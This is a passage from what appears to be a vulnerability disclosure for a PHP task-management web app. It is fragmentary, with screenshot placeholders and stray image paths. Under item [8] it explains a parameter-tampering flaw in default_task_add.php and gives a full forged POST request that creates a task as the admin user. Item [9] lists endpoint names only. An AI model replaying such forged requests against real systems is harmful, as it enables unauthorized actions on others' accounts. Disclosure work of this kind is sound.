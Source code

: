 {"token":0}
```

Return information for all users:

![23.png](./img/23.png)

**[8]Unauthorized Access Vulnerability**

The default_task_add.php file specifies the dispatcher by ```$_POST[‘csa_create_user’]``` when assigning the task, and ```$_POST[‘csa_create_user’] = 1``` can forge the task for the admin user.

POST requests the following data:
```
POST /default_task_add.php?projectID=1&UID=-1&touser=-1 HTTP/1.1
Host: 127.0.0.1:8002
Connection: keep-alive
Content-Length: 313
Pragma: no-cache
Cache-Control: no-cache
Origin: http://127.0.0.1:8002
Upgrade-Insecure-Requests: 1
User-Agent: Mozilla/5.0 (Windows NT 10.0; WOW64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/53.0.2785.104 Safari/537.36 Core/1.53.4295.400 QQBrowser/9.7.12661.400
Content-Type: application/x-www-form-urlencoded
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Referer: http://127.0.0.1:8002/default_task_add.php?projectID=1&UID=-1&touser=-1
Accept-Encoding: gzip, deflate
Accept-Language: zh-CN,zh;q=0.8
Cookie: PHPSESSID=dob1mc5scckdktqjp6bif5dh64; csd=1

csa_text=test_admin_create_project_by_todaro&csa_remark1=hhhh&csa_tag=ccccccc&csa_type=20&csa_to_dept=0001&csa_to_user=2&csa_from_dept=0001&csa_from_user=2&csa_create_user=1&csa_last_user=2&plan_start=2018-08-27&plan_end=2018-08-28&plan_hour=&csa_priority=3&csa_temp=3&csa_remark2=2&cont=ffff&MM_insert=form1
```

![24.png](./img/24.png)

Created a task for admin through exploits.

**[9]**

![25.png](./img/25.png)

/control_file.php


![26.png](./img/26.png)

/control_log.php


![27.png](./img/27.png)

/control_project.php


![28.png](./img/28.png)

/control_task.php


![29.png](./img/29.png)

```